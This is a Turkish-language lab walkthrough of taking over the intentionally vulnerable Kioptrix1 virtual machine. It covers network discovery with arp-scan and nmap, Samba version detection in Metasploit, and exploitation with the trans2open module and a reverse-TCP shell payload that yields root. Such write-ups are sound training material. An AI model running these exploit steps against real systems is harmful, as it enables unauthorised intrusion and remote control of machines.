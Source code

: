 ```yaml
---
title: "[TR] Kioptrix1 - Walkthrough"
date: 2020-10-09 23:37:00 +03:00
---
```



Merhaba arkadaşlar,bugün sizlere Kioptrix1 isimli zafiyetli makineyi ele geçirmeye çalışacağım.


**UYARI!** Kioptrix makinesinin .vmx uzantılı dosyasını not defteri gibi uygulama ile açıp "bridged" kelimesini aratın.Ardından iki tırnak içerisindeki "bridged" kelimesini "nat" ile değiştirin.Aynı zamanda kendi makineninizinde NAT seçeğini ile bağlandığından emin olun.


İlk olarak **ifconfig** komutu ile kendi makinemin IP adresini öğreniyorum.

![Kali LİNUX-2020-10-09-23-43-30-79621c.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-43-30-79621c.png)

Ardından sanal makinemde localhost üzerinden **arp-scan -l** taraması yapıyorum.

![Kali LİNUX-2020-10-09-23-02-50.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-02-50.png)

Evet,Kioptrix1 isimli hedef makinemizin IP Adresi **192.168.75.156** olarak öğrendim.

Şimdi sırada nmap taraması yapmakta.
**nmap -sS -sV  192.168.75.156** komutu ile nmap taramamı başlatıyorum.Bu taramada tcp syn scan isteği ve version tespitini de istemiş oluyorum.

![Kali LİNUX-2020-10-09-23-04-53-8d7406.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-04-53-8d7406.png)

Nmap parametreleri isteği doğrultusunda açık olan portları görebiliyorum şuan.Fakat 139/tcp portunun versiyon tespitini alamadık.Bunu öğrenmek için Metasploit aracını kullanacağım.

Yeni bir komut satırı açıp **msfconsole** komutu ile Metasploit aracını açıyorum.

![Kali LİNUX-2020-10-09-23-07-46.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-07-46.png)

Versiyon tespitini öğrenmek için Auxiliary modülünü kullanacağım.
Komut satırına **show auxiliary** yazarak Auxiliary modülünün içeriğini görüntülüyorum.

![Kali LİNUX-2020-10-09-23-12-24.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-12-24.png)

Bu modül içeriğini baktığımda **scanner/smb/smb_version** modülünü görüyorum.Bunu kullanacağım. 

![Kali LİNUX-2020-10-09-23-13-50.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-13-50.png)

Şimdi sıra bu modülü kullanmakta.Komut satırına **use scanner/smb/smb_version yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-14-06-951382.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-06-951382.png)

Bu modülün ayarlamalarını yapacağım çünkü buna hedef makinenin IP adresini tanımlamam gerek.Komut satırına **show options** komutu yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-14-19-64ce2e.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-19-64ce2e.png)

**set rhosts 192.168.75.156** komutu ile hedef makinenin IP adresini tanımladım.

![Kali LİNUX-2020-10-09-23-14-52.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-52.png)
![Kali LİNUX-2020-10-09-23-15-05.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-15-05.png)

Hedef makinemizin IP Adresini tanımladıktan sonra **run** komutu ile bu modülü çalıştıyorum.

![Kali LİNUX-2020-10-09-23-15-17.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-15-17.png)

EVET! Version tespitini yaptık **Samba 2.2.1a**

Şimdi bu versiyona uygun exploit bulmakta.Msfconsole içerisinde **search Samba 2.2 ** komutu ile arama yapıyorum.

![Kali LİNUX-2020-10-09-23-16-35.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-16-35.png)

Bize uygun exploit seçeneğini buldum gibi.Bu modülü kullanacağım.Bunun için **use exploit/linux/samba/trans2open** komutunu yazarak exploiti kullanacağım.Ama öncesinde exploiti çalıştırabilmek için hedef sistemin IP adresini atayacağım.

![Kali LİNUX-2020-10-09-23-17-45.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-17-45.png)
![Kali LİNUX-2020-10-09-23-18-00.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-18-00.png)

EVETT Ip adresini tanımladık gördüğünüz gibi.

![Kali LİNUX-2020-10-09-23-18-08.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-18-08.png)

Şimdi buradaki payload listesini görüntüleyelim.Komut olarak 
**show payloads** yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-19-33.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-19-33.png)

İçeriğine bakarak bana uygun olan payload olan **linux//x86/shell/reverse_tcp ** gibi bunu kullanarak hedef makine üzerinde Reverse Shell almayı deneyeceğim.

![Kali LİNUX-2020-10-09-23-21-17.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-21-17.png)

Ardından **exploit** diyerek shell almaya çalışıyorum.

![Kali LİNUX-2020-10-09-23-21-33.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-21-33.png)

**Whoami** komutu ile root olduğumuzu gördük.Kioptrix1 makinesini başarıyla ele geçirmiş olduk.







